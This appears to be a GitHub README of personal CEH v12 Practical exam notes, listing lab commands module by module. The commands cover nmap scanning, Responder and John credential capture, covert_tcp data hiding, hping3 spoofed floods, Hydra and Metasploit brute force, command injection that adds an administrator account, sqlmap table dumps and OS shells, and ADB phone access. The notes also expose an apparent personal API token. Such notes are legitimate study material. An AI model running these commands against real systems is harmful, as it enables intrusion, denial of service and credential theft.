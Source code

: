# CEH-v12-Practical
CEH-v12-Practical
Module 03: Scanning Networks

Lab1-Task1: Host discovery

nmap -sn -PR [IP]
-sn: Disable port scan
-PR: ARP ping scan
nmap -sn -PU [IP]
-PU: UDP ping scan
nmap -sn -PE [IP or IP Range]
-PE: ICMP ECHO ping scan
nmap -sn -PP [IP]
-PP: ICMP timestamp ping scan
nmap -sn -PM [IP]
-PM: ICMP address mask ping scan
nmap -sn -PS [IP]
-PS: TCP SYN Ping scan
nmap -sn -PA [IP]
-PA: TCP ACK Ping scan
nmap -sn -PO [IP]
-PO: IP Protocol Ping scan
Lab2-Task3: Port and Service Discovery

nmap -sT -v [IP]
-sT: TCP connect/full open scan
-v: Verbose output
nmap -sS -v [IP]
-sS: Stealth scan/TCP hall-open scan
nmap -sX -v [IP]
-sX: Xmax scan
nmap -sM -v [IP]
-sM: TCP Maimon scan
nmap -sA -v [IP]
-sA: ACK flag probe scan
nmap -sU -v [IP]
-sU: UDP scan
nmap -sI -v [IP]
-sI: IDLE/IPID Header scan
nmap -sY -v [IP]
-sY: SCTP INIT Scan
nmap -sZ -v [IP]
-sZ: SCTP COOKIE ECHO Scan
nmap -sV -v [IP]
-sV: Detect service versions
nmap -A -v [IP]
-A: Aggressive scan
Lab3-Task2: OS Discovery

nmap -A -v [IP]
-A: Aggressive scan
nmap -O -v [IP]
-O: OS discovery
nmap –script smb-os-discovery.nse [IP]
-–script: Specify the customized script
smb-os-discovery.nse: Determine the OS, computer name, domain, workgroup, and current time over the SMB protocol (Port 445 or 139)
Module 04: Enumeration

Lab2-Task1: Enumerate SNMP using snmp-check

nmap -sU -p 161 [IP]
snmp-check [IP]
Addition

nbtstat -a [IP] (Windows)
nbtstat -c
Module 06: System Hacking

Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder

Linux:
cd
cd Responder
chmox +x ./Responder.py
sudo ./Responder.py -I eth0
passwd: ****
Windows
run
\CEH-Tools
Linux:
Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
sudo snap install john-the-ripper
passwd: ****
sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt
Lab3-Task6: Covert Channels using Covert_TCP

Attacker:
cd Desktop
mkdir Send
cd Send
echo "Secret"->message.txt
Place->Network
Ctrl+L
smb://[IP]
Account & Password
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c
Target:
tcpdump -nvvx port 8888 -I lo
cd Desktop
mkdir Receive
cd Receive
File->Ctrl+L
smb://[IP]
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
Tcpdump captures no packets
Attacker
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt
Wireshark (message string being send in individual packet)
Module 08: Sniffing

Lab2-Task1: Password Sniffing using Wireshark

Attacker
Wireshark
Target
www.moviescope.com
Login
Attacker
Stop capture
File-&gt;Save as
Filter: http.request.method==POST
RDP log in Target
service
start Remote Packet Capture Protocol v.0 (experimental)
Log off Target
Wireshark-&gt;Capture options-&gt;Manage Interface-&gt;Remote Interfaces
Add a remote host and its interface
Fill info
Target
Log in
Browse website and log in
Attacker
Get packets
Module 10: Denial-of-Service

Lab1-Task2: Perform a DoS Attack on a Target Host using hping3

Target:
Wireshark-&gt;Ethernet
Attacker
hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood
-S: Set the SYN flag
-a: Spoof the IP address
-p: Specify the destination port
--flood: Send a huge number of packets
Target
Check wireshark
Attacker (Perform PoD)
hping3 -d 65538 -S -p 21 –flood [Target IP]
-d: Specify data size
-S: Set the SYN flag
Attacker (Perform UDP application layer flood attack)
nmap -p 139 10.10.10.19 (check service)
hping3 -2 -p 139 –flood [IP]
-2: Specify UDP mode
Other UDP-based applications and their ports
CharGen UDP Port 19
SNMPv2 UDP Port 161
QOTD UDP Port 17
RPC UDP Port 135
SSDP UDP Port 1900
CLDAP UDP Port 389
TFTP UDP Port 69
NetBIOS UDP Port 137,138,139
NTP UDP Port 123
Quake Network Protocol UDP Port 26000
VoIP UDP Port 5060
Module 13: Hacking Web Servers

Lab2-Task1: Crack FTP Credentials using a Dictionary Attack

nmap -p 21 [IP]
hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10
Module 14: Hacking Web Applications

Lab2-Task1: Perform a Brute-force Attack using Burp Suite

Set proxy for browser: 127.0.0.1:8080
Burpsuite
Type random credentials
capture the request, right click-&gt;send to Intrucder
Intruder-&gt;Positions
Clear $
Attack type: Cluster bomb
select account and password value, Add $
Payloads: Load wordlist file for set 1 and set 2
start attack
filter status==302
open the raw, get the credentials
recover proxy settings
Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications

Log in a website, change the parameter value (id )in the URL
Conduct a XSS attack: Submit script codes via text area
Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit

wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate u
--enumerate u: Specify the enumeration of users
API Token: Register at https://wpscan.com/register
Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
service postgresql start
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 8080
set TARGETURI http://10.10.10.16:8080/CEH
set USERNAME admin
run
Find the credential
Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)

If found command injection vulnerability in an input textfield
| hostname
| whoami
| tasklist| Taskkill /PID /F
/PID: Process ID value od the process
/F: Forcefully terminate the process
| dir C:\
| net user
| net user user001 /Add
| net user user001
| net localgroup Administrators user001 /Add
Use created account user001 to log in remotely
Module 15: SQL Injection

Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

Login a website
Inspect element
Dev tools-&gt;Console: document.cookie
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" –dbs
-u: Specify the target URL
--cookie: Specify the HTTP cookie header value
--dbs: Enumerate DBMS databases
Get a list of databases
Select a database to extract its tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –tables
-D: Specify the DBMS database to enumerate
--tables: Enumerate DBMS database tables
Get a list of tables
Select a column
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –T User_Login --dump
Get table data of this column
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --os-shell
Get the OS Shell
TASKLIST
Module 17: Hacking Mobile Platforms

Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit

cd Phonesploit
python3 -m pip install colorama
python3 phonesploit.py
3
10.10.10.14
4
pwd
cd sdcard
cd Download
Module 20: Cryptography

Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator

Nothing special
Lab4-Task1: Perform Disk Encryption using VeraCrypt

Click VeraCrypt
Create Volumn
Create an encrypted file container
Specify a path and file name
Set password
Select NAT
Move the mouse randomly for some seconds, and click Format
Exit
Select a drive, select file, open, mount
Input password
Dismount
Exit
Module Appendix: Covered Tools

Nmap
Multiple Labs
Hydra
Module 13: Lab2-Task1
Sqlmap
Module 15: Lab1-Task2
WPScan
Module 14: Lab2-Task5
wpscan –-url http://10.10.10.10 -t 50 -U admin -P rockyou.txt
Nikto
https://zhuanlan.zhihu.com/p/124246499
John
Module 06: Lab1-Task1
Hashcat
Crack MD5 passwords with a wordlist:
hashcat hash.txt -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
Crack MD5 passwords in a certain format:
hashcat -m 0 -a 3 ./hash.txt 'SKY-HQNT-?d?d?d?d'
https://xz.aliyun.com/t/4008
https://tools.kali.org/password-attacks/hashcat
Metasploit
Module 14: Lab2-Task5
Responder LLMNR
Module 06: Lab1-Task1
Wireshark or Tcpdump
Multiple Labs
Steghide
Hide
steghide embed -cf [img file] -ef [file to be hide]
steghide embed -cf 1.jpg -ef 1.txt
Enter password or skip
Extract
steghide info 1.jpg
steghide extract -sf 1.jpg
Enter password if it does exist
OpenStego
https://www.openstego.com/
QuickStego
Module 06: Lab0-Task1
Dirb (Web content scanner)
https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86
https://blog.csdn.net/weixin_44912169/article/details/105655195
Searchsploit (Exploit-DB)
https://www.hackingarticles.in/comprehensive-guide-on-searchsploit/
Crunch (wordlist generator)
https://www.cnblogs.com/wpjamer/p/9913380.html
Cewl (URL spider)
https://www.freebuf.com/articles/network/190128.html
Veracrypt
Module 20: Lab4-Task1
Hashcalc
Module 20: Lab1-Task1 (Nothing special)
Rainbow Crack
Module 06: Lab0-Task0
Windows SMB
smbclient -L [IP]
smbclient \ip\sharename
nmap -p 445 -sV –script smb-enum-services [IP]
**Run Nmap at the beginning **
nmap -sn -PR 192.168.1.1/24 -oN ip.txt
nmap -A -T4 -vv -iL ip.txt -oN nmap.txt
nmap -sU -sV -A -T4 -v -oN udp.txt
Snow
./snow -C -p "magic" output.txt
snow -C -m "Secret Text Goes Here!" -p "magic" readme.txt readme2.txt • -m → Set your message • -p → Set your password
Rainbowcrack
Use Winrtgen to generate a rainbow table
Launch RainbowCrack
File->Load NTLM Hashes from PWDUMP File
Rainbow Table->Search Rainbow Table
Use the generated rainbow table
RainbowCrack automatically starts to crack the hashes QuickStego
Launch QuickStego
Open Image, and select target .jpg file
Open Text, and select a txt file
Hide text, save image file
Re-launch, Open Image
Select stego file
Hidden text shows up

